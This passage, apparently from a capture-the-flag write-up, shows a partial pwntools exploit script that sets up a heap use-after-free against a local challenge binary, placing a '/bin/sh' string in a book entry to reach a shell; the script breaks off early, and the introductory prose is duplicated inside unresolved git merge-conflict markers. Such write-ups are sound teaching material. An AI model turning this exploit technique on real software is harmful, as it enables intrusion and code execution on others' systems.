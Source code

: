 ### Exploit

<<<<<<< HEAD
Putting it all together, we get the following exploit. Also when I was doing the exploit dev for this one, I'm not sure why but I had some I/O issues. In addition to that, this exploit is dependant on the libc version. So if you have a different libc version, you will need to swap out the libc file in the exploit:
=======
Putting it all together, we get the following exploit. Also when I was doing the exploit dev for this one, I'm not sure why but I had some I/O issues. In addition to that, this exploit is dependent on the libc version. So if you have a different libc version, you will need to swap out the libc file in the exploit:
>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589

```
from pwn import *

target = process('./challenge')
libc = ELF('./libc-2.27.so')# If you have a different libc version, swap it out here
#gdb.attach(target)

# function to add books
def addBook(size, price, payload):
    target.sendline('1')
    target.sendline(str(size))
    target.send(payload)
    target.sendline(str(price))
    print target.recvuntil('>')

# function to add books with a null byte in it's name
# for some reason, we need to send an additional byte
def addBookSpc(size, price, payload):
  target.sendline("1")
  target.sendline(str(size))
  target.sendline(payload)
  target.sendline("7")
  target.recvuntil(">")

# this is a function to delete books
def deleteBook(index):
    target.sendline('2')
    target.sendline(str(index))
    target.recvuntil('>')

# add a bunch of books to use late with the use after free
addBook(50, 5, "0"*50)
addBook(50, 5, "1"*50)
addBook(50, 5, "2"*50)
addBook(50, 5, "3"*50)
addBook(50, 5, "4"*50)
addBook(50, 5, "5"*50)
addBook(50, 5, "6"*50)
addBookSpc(50, 5, "/bin/sh\x00") # this book will contain the "/bin/sh" string to pass a pointer to free
addBook(50, 5, "8"*50)
addBook(50, 5, "9"*50)
addBook(50, 5, "x"*50)
addBook(50, 5, "y"*50)
addBook(50, 5, "9"*50)
addBook(50, 5, "q"*50)


# delete the books, to setup the use after free
deleteBook(0)
```